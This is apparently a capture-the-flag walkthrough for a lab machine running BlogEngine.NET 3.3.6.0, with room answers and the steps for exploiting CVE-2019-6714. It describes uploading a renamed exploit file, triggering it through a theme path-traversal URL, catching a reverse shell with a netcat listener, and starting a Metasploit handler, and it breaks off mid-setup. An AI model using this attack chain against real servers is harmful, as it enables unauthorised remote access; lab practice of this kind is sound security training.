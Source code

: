 We get it the version blogengine.net on about page.

<img src="https://user-images.githubusercontent.com/67650329/193575906-e2442c39-2c96-497c-b238-cc18644cc066.png" width="500px" align="center">

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

**Answer: 3.3.6.0**

Search the vulnerability on Exploit.db. And Download the exploit.

<img src="https://user-images.githubusercontent.com/67650329/193576096-f3b67efb-9e80-4860-aebc-aa08161ddc20.png" width="500px" align="center">

**What is the CVE?**

**Answer: CVE-2019-6714**

Open and read the file. Changes the IP to your IP and Port.

<img src="https://user-images.githubusercontent.com/67650329/193576639-d33a7885-6524-459a-8320-27b1a724c242.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193576719-1b3fb47e-597a-4e7e-9a99-ae1212228451.png" width="500px" align="center">

Change the name file to `PostView.ascx`.

You can Upload the file on there.

-> `http://{IP_target}/admin/page/app/editor/editpost.cshtml`

<img src="https://user-images.githubusercontent.com/67650329/193577059-88553b4d-20f6-4fce-aa02-4f5bb8f5f97c.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193577123-74f95a01-d5d8-4f75-9e38-d3c5dee9e203.png" width="500px" align="center">

After upload file you must run listener like `netcat`

`nc -lvp 4445`

<img src="https://user-images.githubusercontent.com/67650329/193577366-6dcd7c68-d9ce-4d2f-b934-fbf6fe02906e.png" width="500px" align="center">

You can run the file you uploaded on the website by access the website.

-> `http://{IP_target}/?theme=../../App_Data/files`

And boom your netcat reply your file.

<img src="https://user-images.githubusercontent.com/67650329/193577955-3953b850-a3e6-4863-8152-9f0ded6a408a.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193578109-943f2d8a-3c99-42ec-a012-f5334b45806a.png" width="500px" align="center">

**Who is the webserver running as?**

**Answer: iis apppool\blog**

After we get into the machine. We can get into the machine with `meterpreter` use `metasploit`.

`search exploit/multi/handler`

`set LHOST [Your_IP]`

`set LPORT [PORT]`
